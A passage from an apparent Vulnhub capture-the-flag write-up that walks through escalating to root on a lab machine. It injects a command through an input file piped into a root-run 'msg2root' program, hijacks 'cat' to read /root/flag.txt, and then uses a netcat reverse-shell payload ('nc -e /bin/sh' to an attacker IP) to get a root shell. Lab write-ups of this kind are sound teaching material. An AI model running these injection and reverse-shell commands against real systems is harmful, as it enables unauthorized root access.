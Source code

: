 > "/bin/cat /root/flag.txt"

However if we wish to run that command, and then print out the contents of the command we can utilize the special bash character `$`.

```BASH
echo $(/bin/cat /root/flag.txt)
```

> "whatever the contents of /root/flag.txt are"

This means that the command will be run inside the parentheses, and then the output will be passed onto the `/root/messages.txt` file, so we can read the contents of the flag using this.  With our previously created input file located at `/home/kane/input` we can pipe the contents of that file into the `msg2root` program, and obtain RCE

```BASH
echo '/home/mike/./msg2root < /home/kane/input' > cat
./msgmike
```

![](C:\Users\mcAnderson\Documents\Intern\Vulnhub\init\completed.png)

We have successfully achieved RCE as root, but that is not the goal of rooting a box, we want to be root with a shell that we can manipulate.  To do this we can change the contents of our `input` file to be more malicious and spawn another reverse shell for us.  We can start listening on the host machine for any connections on the port 1235

```BASH
nc -lvnp 1235
```

and then on the target machine we can manipulate the input file to instead read

```bash
$(nc -e /bin/sh 192.168.80.129 1235)
```

with our newly created payload we can once again chain our exploits together, invoke `msgmike` and achieve a remote root shell on our own host computer to fully root the box.

![](C:\Users\mcAnderson\Documents\Intern\Vulnhub\init\rootred.png)

